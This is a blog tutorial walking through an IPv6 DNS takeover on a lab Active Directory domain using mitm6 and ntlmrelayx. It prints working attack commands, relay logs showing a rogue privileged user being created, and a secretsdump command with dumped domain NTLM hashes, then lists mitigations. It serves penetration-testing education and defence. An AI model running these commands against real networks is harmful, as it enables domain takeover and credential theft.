 ```yaml
---
layout:	post
title:  "AD Initial-Attacks: IPv6 DNS Takeover"
date:   2024-07-22 11:11:11 +0200
categories: [Active Directory]
tags: [Active Directory]
---
```


## Pre-requisites

[AD: Fundamentals (venuschhantel.com.np)](https://venuschhantel.com.np/posts/AD_Fundamentals/)

<br>

## AD Environment

The AD environment for the IPv6 DNS Takeover walkthrough is illustrated in the image below.

![AD Environment](/images/2024-07-22-AD_Initial_Attacks_IPv6_DNS_Takeover/1.png)

<br>

## IPv6 DNS Takeover

Many network primarily use IPv4 but also have IPv6 enabled. Often IPv6 DNS server is not configured. So, there is usually nothing that does the DNS for IPv6. Attacker can take advantage of this **misconfiguration** and spoof as IPv6 DNS server to carry out MITM attack.

To carry out the attack, we will use ntlmrelayx and mitm6 tools from ‘hecker’ machine. Execute ntlmrelayx with the following command to relay IPv6 traffic to DC.  

```bash
ntlmrelayx.py -6 -t ldaps://192.168.190.130 -wh wpad.APEWITHINTERNET.local -l Out
```

Then, mitm6 was executed with following command to spoof and intercept IPv6 traffic. Make sure to use this in short sprints of 5-10 minutes in production environment as it can cause network outages.

```bash
sudo mitm6 -d APEWITHINTERNET.local
```

Now, when any event occur on the network like machine startup/reboot or user logins, they will be intercepted and relayed to DC.

When PC1 startup/reboot, the PC will try to authenticate to spoofed ‘hecker’ machine which will be relayed to DC.  

```bash
*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: /wpad.dat
[*] HTTPD: Client requested path: /wpad.dat
[*] HTTPD: Serving PAC file to client ::ffff:192.168.190.129
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Received connection from ::ffff:192.168.190.129, attacking target ldaps://192.168.190.130
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://www.msftconnecttest.com/connecttest.txt
[*] HTTPD: Client requested path: http://ipv6.msftconnecttest.com/connecttest.txt
[*] Authenticating against ldaps://192.168.190.130 as APEWITHINTERNET\PC1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Authenticating against ldaps://192.168.190.130 as APEWITHINTERNET\PC1$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] Dumping domain info for first time
[*] Domain info dumped into lootdir!
```

Additionally, it uses ldapdomaindump to dump out various object information like users, computers, groups, policy, trusts, etc, in various file format which are listed below.  This can be useful for enumeration.

```bash
-rw-rw-r-- 1 kali kali  2209 Jul 21 14:28 domain_computers_by_os.html
-rw-rw-r-- 1 kali kali   706 Jul 21 14:28 domain_computers.grep
-rw-rw-r-- 1 kali kali  1873 Jul 21 14:28 domain_computers.html
-rw-rw-r-- 1 kali kali 12180 Jul 21 14:28 domain_computers.json
-rw-rw-r-- 1 kali kali 10202 Jul 21 14:28 domain_groups.grep
-rw-rw-r-- 1 kali kali 17213 Jul 21 14:28 domain_groups.html
-rw-rw-r-- 1 kali kali 82546 Jul 21 14:28 domain_groups.json
-rw-rw-r-- 1 kali kali   267 Jul 21 14:28 domain_policy.grep
-rw-rw-r-- 1 kali kali  1163 Jul 21 14:28 domain_policy.html
-rw-rw-r-- 1 kali kali  5458 Jul 21 14:28 domain_policy.json
-rw-rw-r-- 1 kali kali    71 Jul 21 14:28 domain_trusts.grep
-rw-rw-r-- 1 kali kali   828 Jul 21 14:28 domain_trusts.html
-rw-rw-r-- 1 kali kali     2 Jul 21 14:28 domain_trusts.json
-rw-rw-r-- 1 kali kali 18519 Jul 21 14:28 domain_users_by_group.html
-rw-rw-r-- 1 kali kali  2177 Jul 21 14:28 domain_users.grep
-rw-rw-r-- 1 kali kali  8223 Jul 21 14:28 domain_users.html
-rw-rw-r-- 1 kali kali 18589 Jul 21 14:28 domain_users.json
```

Also, when user try to login, they will try to authenticate to spoofed ‘hecker’ machine which will be relayed to DC. 

```bash
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Attempting to create user in: CN=Users,DC=APEWITHINTERNET,DC=local
[*] Adding new user with username: CBHOxNqxcU and password: Dm=:S12UF7h2=h~ result: OK
[*] Querying domain security descriptor
[*] Success! User CBHOxNqxcU now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20240721-143455.restore
[-] New user already added. Refusing to add another
[-] Unable to escalate without a valid user, aborting
```

As can be seen in above output, it created a user named ‘CBHOxNqxcU’ with password ‘Dm=:S12UF7h2=h~’, which is verified below..

![AD Environment](/images/2024-07-22-AD_Initial_Attacks_IPv6_DNS_Takeover/2.png)

<br>

## Additional

Since the tool creates a user. We can use that user to dump out NTDS.DIT as can be seen below. The dumped hash can be later cracked offline.

```bash
secretsdump.py APEWITHINTERNET/CBHOxNqxcU:Dm=:S12UF7h2=h~@192.168.190.130 -just-dc-ntlm
```

```bash
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:064fbbe5db9939f23459813a58e24a78:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ff99a9aaf9780bb473a16a218c7a3848:::
APEWITHINTERNET.local\ape:1103:aad3b435b51404eeaad3b435b51404ee:f7ea8d7ec5f7ccf8e50b661ee29f8ee0:::
APEWITHINTERNET.local\monkee:1104:aad3b435b51404eeaad3b435b51404ee:868af3862be0f5859ab56ca33330d795:::
APEWITHINTERNET.local\chimp:1105:aad3b435b51404eeaad3b435b51404ee:fc15b4e40a055ef9b1937538e61ab5c6:::
APEWITHINTERNET.local\SQLService:1106:aad3b435b51404eeaad3b435b51404ee:b5d902ffca907a7cb1d8fb9bf4dbb0bd:::
CBHOxNqxcU:1111:aad3b435b51404eeaad3b435b51404ee:025a288deddf795bb558cf658a90fb4c:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:0fd99f8be51a76a7237ab34a1f58e218:::
PC2$:1109:aad3b435b51404eeaad3b435b51404ee:0ecc239e48df9c0052227ddbd282984f:::
PC1$:1110:aad3b435b51404eeaad3b435b51404ee:0a6696279f7963e540d35e0e760a2b62:::
[*] Cleaning up... 
```

<br>

## Mitigations

- If IPv6 is not used, block DHCPv6 traffic via Windows Firewall Group Policy
    - (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-In)
    - (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
    - (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-Out)
- Enable LDAP signing and LDAP channel binding to avoid LDAP/LDAPS relay
- If WPAD is not used, disable it via registry
    - Set ‘HKLM\SYSTEM\CurrentControlSet\Services\WinHttpAutoProxySvc\Start’ value to 4
- Add high privileges users to Protected Users group to prevent impersonation of user via delegation